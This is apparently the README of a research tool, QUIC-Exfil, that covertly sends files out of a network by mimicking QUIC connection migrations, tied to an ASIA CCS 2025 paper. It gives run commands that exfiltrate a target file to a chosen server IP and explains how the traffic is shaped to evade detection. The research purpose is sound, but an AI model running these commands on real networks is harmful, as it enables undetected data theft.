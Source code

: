 # quic-exfil
Covert data exfiltration by mimicking QUIC server-side connection migrations.

![Rust build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/rust.yml/badge.svg)
![Docker build workflow](https://github.com/thomasgruebl/quic-exfil/actions/workflows/docker-image.yml/badge.svg)
![Crates.io](https://img.shields.io/crates/d/quic-exfil?style=plastic)
![Libraries.io dependency status for GitHub repo](https://img.shields.io/librariesio/github/thomasgruebl/quic-exfil?style=plastic)
![GitHub last commit](https://img.shields.io/github/last-commit/thomasgruebl/quic-exfil?style=plastic)
![GitHub](https://img.shields.io/github/license/thomasgruebl/quic-exfil?style=plastic)
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/stargazers">
<img src="https://img.shields.io/github/stars/thomasgruebl/quic-exfil.svg?style=plastic" alt="Stars">
</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/fork">
<img src="https://img.shields.io/github/forks/thomasgruebl/quic-exfil.svg?style=plastic" alt="Forks">
</a>
<a style="text-decoration: none" href="https://github.com/thomasgruebl/quic-exfil/issues">
<img src="https://img.shields.io/github/issues/thomasgruebl/quic-exfil.svg?style=plastic" alt="Issues">
</a>



<!-- TABLE OF CONTENTS -->
<details open="open">
  <summary><h2 style="display: inline-block">Table of Contents</h2></summary>
  <ul>
  <li><a href="#introduction">Introduction</a></li>
  <li><a href="#dependencies">Dependencies</a></li>
  <li><a href="#build">Build</a></li>
  <li><a href="#run">Run</a></li>
  <li><a href="#testbed">Experimental Testbed</a></li>
  <li><a href="#citation">Citation</a></li>
  <li><a href="#license">License</a></li>
  </ul>
</details>


## Introduction

QUIC-Exfil exploits the fact that QUIC allows changes in the underlying IP header, without requiring a new handshake. Therefore, from the perspective of an on-path observer, QUIC connection migrations are difficult to differentiate from potentially malicious traffic. If an adversary monitors the statistical properties of the QUIC traffic within a network, he/she can almost perfectly replicate the observable features of QUIC traffic, including a connection migration "fingerprint" and the traffic that follows.

The following figure depicts a QUIC-Exfil client-side Wireshark trace (without the required server-side acknowledgments). The second packet in the trace (highlighted in blue) represents the mimicked server-side connection migration to a new destination IP address, followed by various exfiltration payload packets. For illustration purposes, the exfiltration packets retain the same DCID as from the hijacked connection (packet #1). The inter-arrival times (i.e., time deltas) between the outgoing QUIC packets, as well as the payload sizes of the connection migration packet and the "normal" QUIC packets are sampled from a distribution of previously observed packets for the QUIC connection with DCID 29a3de9a9c2063bd0f65b34637234ece7cf876fa. Furthermore, the exfiltration payloads are encrypted using AES-256-CBC to match the entropy of typical encrypted traffic. This reduces the observable differences in legitimate QUIC traffic as compared to malicious exfiltration traffic.

![Alt text](images/wireshark.png "pcap_sample")


## Dependencies

libpcap

Debian/Ubuntu:

```sh
sudo apt install libpcap-dev
```

macOS:

```sh
brew install libpcap
```


## Build

```sh
cargo build --release
```

## Run

```sh
sudo ./target/release/quic-exfil
```

```sh
Usage: quic-exfil [OPTIONS]

Options:
  -i, --interface <INTERFACE>  Network interface name [default: en1]
  -t, --target <TARGET>        Target file to exfiltrate [default: images/sample.jpg]
  -f, --filter <FILTER>        Pcap capture filter [default: udp dst port 443]
  -d, --dst <DST>              Exfiltration server destination IP [default: 192.0.2.100]
  -p, --port <PORT>            Exfiltration server destination port [default: 443]
  -b, --buffer <BUFFER>        Packet buffer. Specifies how many QUIC packets should be captured and analyzed before attempting to send the first exfiltration packet. Required to mimic payload lengths of previously seen traffic [default: 1000]
  -n, --number <NUMBER>        Number of packets to be exfiltrated per simulated connection migration [default: 100]
  -h, --help                   Print help
  -V, --version                Print version

```



## Testbed

This section describes the experimental setup used to evaluate `quicexfil` in a Docker-based testbed. The testbed aims to simulate a small enterprise network with multiple desktop machines generating QUIC traffic, and controlled benign connection migrations using Cloudflare's `quiche` library.

Docker compose spins up 16 containers running the `quicexfil` binary. Each container is based on [`accetto/xubuntu-vnc-novnc-firefox`](https://hub.docker.com/r/accetto/xubuntu-vnc-novnc-firefox) for a lightweight desktop GUI with Firefox and noVNC support.

Launch the setup:

```sh
docker compose up --build
```

This will build the image and launch 16 instances of the quicexfil container.

You will see console output showing accessible noVNC URLs (e.g., https://172.19.0.8:6901) for each container. These can be opened in your host browser to interact with each container’s desktop environment.

You can connect to each container using the noVNC lite clients, for example:

```sh
https://172.19.0.8:6901
```

Log in with the default password <i>headless</i> and open your browser in each container to manually generate QUIC traffic (e.g., by visiting sites like Cloudflare or Google, which already use the QUIC protocol).

Running the benign QUIC server on the Host VM:

The benign QUIC server was used to create fingerprints of benign connection migrations. The base virtual machine (host) runs the quiche server to listen for and accept QUIC connections (including active migrations):

```sh
./target/release/quiche-server \
  --listen 192.168.100.63:4433 \
  --root html \
  --cert apps/src/bin/cert.crt \
  --key apps/src/bin/cert.key \
  --enable-active-migration
```

Replace <i>192.168.100.63</i> with the IP address of your host machine.

Connect to each container using

```sh
docker exec -it <container_id> bash
```

and then start the benign quiche connection migration script (make sure to adjust the IP address of your quiche server within the [script](https://github.com/thomasgruebl/quic-exfil/blob/main/scripts/benign_conn_migr.sh)):

```sh
./benign_conn_migr.sh
```

In 4 of the 16 containers, the experimental quicexfil tool is manually run to test potential data exfiltration over QUIC:

```sh
./target/release/quic-exfiltration -d "192.0.2.100" -i "eth0"
```

Replace <i>192.0.2.100</i> with the IP address of your exfiltration server.


## Citation

If you intend to use QUIC-Exfil, please cite the following publication:

--preliminary--

```text
@inproceedings{10.1145/3708821.3733872,
author = {Gr\"{u}bl, Thomas and Niu, Weijie and von der Assen, Jan and Stiller, Burkhard},
title = {QUIC-Exfil: Exploiting QUIC’s Server Preferred Address Feature to Perform Data Exfiltration Attacks},
year = {2025},
isbn = {798400714108},
publisher = {Association for Computing Machinery},
address = {New York, NY, USA},
url = {https://doi.org/10.1145/3708821.3733872},
doi = {10.1145/3708821.3733872},
booktitle = {Proceedings of the 20th ACM Asia Conference on Computer and Communications Security},
pages = {XXX–YYY},
numpages = {14},
keywords = {QUIC, Network Security, Data Exfiltration, Anomaly Detection},
location = {Hanoi, Vietnam},
series = {ASIA CCS '25}
}
```




## License

Distributed under the `GNU General Public License v3.0` License. See
[`LICENSE`](<https://github.com/thomasgruebl/quic-exfil/tree/main/LICENSE>)
for more information.